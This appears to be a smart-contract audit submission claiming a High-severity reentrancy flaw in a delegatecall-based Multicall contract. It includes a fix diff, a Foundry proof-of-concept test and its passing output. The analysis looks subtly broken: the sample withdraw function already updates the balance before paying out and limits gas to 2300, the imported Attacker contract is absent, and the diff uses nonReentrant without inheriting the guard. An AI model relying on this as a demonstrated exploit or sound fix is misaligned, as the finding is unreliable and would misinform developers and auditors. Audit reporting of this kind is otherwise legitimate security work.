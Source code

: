 Curved Cinnamon Tuna

High

# Multicall Reentrancy Exploit via Delegatecall

## Summary
The `Multicall`, which allows batching multiple function calls into a single transaction using `delegatecall`, is vulnerable to reentrancy attacks. This vulnerability can be exploited by attackers to manipulate the contract's state, potentially leading to significant financial losses.

## Vulnerability Detail
The `Multicall` contract's `multicall` function uses `delegatecall` to execute multiple function calls within the context of the calling contract. If any of the functions called via `delegatecall` are not reentrancy-safe, an attacker can exploit this by making recursive calls back into the contract. This can lead to unexpected state manipulations and potential loss of funds. Specifically, the vulnerability arises because `delegatecall` allows the called function to modify the state of the calling contract, and without proper reentrancy guards, this can be exploited.
https://github.com/sherlock-audit/2024-06-makerdao-endgame/blob/main/lockstake/src/Multicall.sol#L12

## Impact
- Drain funds from the contract.
- Perform double-spending.
- Execute unauthorized withdrawals.
- Corrupt the contract's state.

## Code Snippet
https://github.com/sherlock-audit/2024-06-makerdao-endgame/blob/main/lockstake/src/Multicall.sol#L9-L23

## Tool used

Manual Review

## Recommendation
Implement reentrancy guards to prevent reentrant calls. Use OpenZeppelin's `ReentrancyGuard` to secure the `multicall` function.
```diff
+   import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

abstract contract Multicall  {
-    function multicall(bytes[] calldata data) external returns (bytes[] memory results) {
+    function multicall(bytes[] calldata data) external nonReentrant returns (bytes[] memory results) {
        results = new bytes[](data.length);
        for (uint256 i = 0; i < data.length; i++) {
            (bool success, bytes memory result) = address(this).delegatecall(data[i]);

            if (!success) {
                if (result.length == 0) revert("multicall failed");
                assembly ("memory-safe") {
                    revert(add(32, result), mload(result))
                }
            }

            results[i] = result;
        }
    }
}
```

## PoC
VulnerableContract
```solidity
// SPDX-License-Identifier: GPL-2.0-or-later
pragma solidity ^0.8.21;

import "./Multicall.sol";

contract VulnerableContract is Multicall {
    mapping(address => uint256) public balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint256 amount) external {
        require(balances[msg.sender] >= amount, "Insufficient balance");
        balances[msg.sender] -= amount;
        (bool success, ) = msg.sender.call{value: amount, gas: 2300}("");
        require(success, "Transfer failed");
    }
}
```
ExploitTest
```solidity
// SPDX-License-Identifier: GPL-2.0-or-later
pragma solidity ^0.8.21;

import "forge-std/Test.sol";
import "../src/VulnerableContract.sol";
import "../src/Attacker.sol";

contract ExploitTest is Test {
    VulnerableContract vulnerableContract;
    Attacker attacker;

    function setUp() public {
        vulnerableContract = new VulnerableContract();
        attacker = new Attacker(address(vulnerableContract));
    }

    function testExploit() public {
        // Fund the vulnerable contract
        vm.deal(address(vulnerableContract), 10 ether);

        // Start the attack
        vm.deal(address(attacker), 1 ether);
        attacker.attack{value: 1 ether}();

        // Check if the attack was successful
        assertGt(address(attacker).balance, 1 ether, "Exploit failed");
    }
}
```
forge test --match-path test/ExploitTest.sol
[⠊] Compiling...
[⠒] Compiling 3 files with Solc 0.8.21
[⠢] Solc 0.8.21 finished in 1.98s
Compiler run successful!

Ran 1 test for test/ExploitTest.sol:ExploitTest
[PASS] testExploit() (gas: 43363)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 960.20µs (278.30µs CPU time)

Ran 1 test suite in 5.48ms (960.20µs CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
